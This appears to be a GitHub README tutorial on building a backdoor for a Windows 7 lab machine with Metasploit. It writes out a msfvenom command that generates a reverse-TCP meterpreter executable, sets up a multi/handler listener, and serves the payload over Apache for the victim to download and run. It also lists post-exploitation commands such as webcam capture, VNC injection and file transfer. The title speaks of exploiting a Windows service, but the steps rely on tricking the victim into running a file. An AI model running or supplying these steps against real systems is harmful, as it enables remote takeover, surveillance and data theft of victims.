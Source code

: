 # Creating backdoor in windows 7 using vulnerabilities in one of its services.

## What is a Backdoor?
- Backdoors are malicious files that contain Trojan or other infectious applications that can give you either Halt the processes of the machine or it may give us partial remote access to the Machine.
- We will be getting a reverse TCP connection from the victim machine by using a small **backdoor** using **Metasploit Framework**.

## REQUIREMENTS 
- KALI LINUX/Parrot OS.
- WINDOWS 7 OS VIRTUAL MACHINES.
- VMware.

## TERMS
- LHOST = Listening host (kali IP).
- LPORT = Listening Port( kali port number).
- Payload = Backdoor file which is going to be used for the OS like Windows, Linux, Mac, Android.
  

<br>

### Step 1

Start up your kali Linux and Windows 7 systems as Two Virtual Machines.

<hr>

### Step 2
First of all check your IP of kali machine for further use. 
```linux
Run ifconfig
```
<br>

![Step 2](https://github.com/mohitpanthri/Ethical-Hacking/assets/99413629/4ecc4926-4e01-4a95-94cd-ee19c7ecf576)

<hr>

### Step 3
In the terminal window of kali linux type ```msfconsole``` then wait for it to open, in the mean time open another terminal window to create a payload using ```msfvenom```.
- **MSFCONSOLE** – It’s a centralized console which gives you access with Multiple attacking vectors, exploits, and auxiliaries to exploit a machine in various ways.
- **MSFVENOM** – A tool used to create payload of backdoor, it is already a part of Metasploit framework used to to create and exploit tools in various ways and techniques.
<br>

![Step 3](https://github.com/mohitpanthri/Ethical-Hacking/assets/99413629/c095ee8a-87ed-4d62-9727-105351ba2916)

<hr>

### Step 4
In msfvenom window type the command as below.
```linux
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(your linux IP) -f exe > /root/Desktop/victim.exe
```
- **Note:** Remove the () when you write your IP.
<br>

![Step 4](https://github.com/mohitpanthri/Ethical-Hacking/assets/99413629/06f9c2d5-1c46-497a-a282-87601e4fea5c)

<hr>

### Step 5
Now in msfcosole tab use below commands to make a listener for the connection. (we can use net cat also).

```
use exploit/multi/handler
```
- This is a wild card listener used to listen for active connection from the victim.

```
set payload windows/meterpreter/reverse_tcp
```
- This a payload is same as that we used in msfvenom for backdoor. It is a stager payload(You don’t need to be an active listener in msfconsole when victim runs the payload-backdoor.
  
- ```show options``` This command will help you to make sure of the requirements for a connection.

```
set LHOST (KALI IP-your ip ADDRESS)
set LPORT 4444 (kali port number in which we need to make the connection)
```

then type ```RUN``` or ```EXPLOIT```.
<br>
```WE ARE NOW LISTENING FOR THE CONNECTIONS ON PORT 4444.```
<br>

![Step 5](https://github.com/mohitpanthri/Ethical-Hacking/assets/99413629/9d11d9a9-b2bb-4d9b-a83d-96b35d7901a4)


<hr>

### Step 6
Now we are going to send the payload to victim’s machine by using default apache server in kali Linux. In real time task we need to do port forwarding in routers along with Public IP. 
Since My both machines are in same network I will be hosting a local server to share the file from kali to windows.

<hr>

### Step 7
First copy the payload file from Desktop to this location ```/var/www/html```.
<br>
Then now we can start our apache server using this command.
```
service apache2 start
```
<br>

![Step 7](https://github.com/mohitpanthri/Ethical-Hacking/assets/99413629/a202b364-a4eb-4e92-8838-ef798c080863)

<hr>

### Step 8
Now switch to Windows 7 Machine then type your kali IP in the browser then download it and run it.
<br>

![Step 8 a](https://github.com/mohitpanthri/Ethical-Hacking/assets/99413629/42a693c0-4945-4f5a-9d59-96422dc7dfdb)

![Step 8 b](https://github.com/mohitpanthri/Ethical-Hacking/assets/99413629/2aa0a70f-a4dd-428a-88d9-40ed4fa2034f)

<hr>

### Step 9
Now Switch to Kali to see whether the Meterpreter session is opened or not with the reverse connection from the victim machine.
<br>
**Your Reverse Connection must be successfull**.
<br>

![Step 9](https://github.com/mohitpanthri/Ethical-Hacking/assets/99413629/853c7798-7741-4974-a5ce-67c3d9469d03)

<hr>

### Step 10
**POST EXPLOITATION using METERPRETER commands like**
```sysinfo```,```pwd```,```id```,```cd```,```Upload```,```Download```.

- We can use lot of meterpreter commands like ```webcam_snap```, to use victim machine as we want.
- Type ``help`` to see list of commands you can use.
- MSFVENOM gives lot of various Payload depends on the usage of attackers approaches, He/She can use ```VNCinject``` payload also to retrieve the remote Screen of the victim Machine.
- We can use Reverse HTTPS connection also if the ports were blocked.

### Below is an example to save the screenshot of victim's computer

![Screenshot of Victim 1](https://github.com/mohitpanthri/Ethical-Hacking/assets/99413629/14cd6a7e-7f66-42a5-b95b-142ce5c29137)

![Screenshot of Victim 2](https://github.com/mohitpanthri/Ethical-Hacking/assets/99413629/055ce31a-7dfc-41ac-89a0-0bf7664dcbfd)

![Screenshot of Victim proof](https://github.com/mohitpanthri/Ethical-Hacking/assets/99413629/aec48478-9a78-415b-ae18-343342becb94)
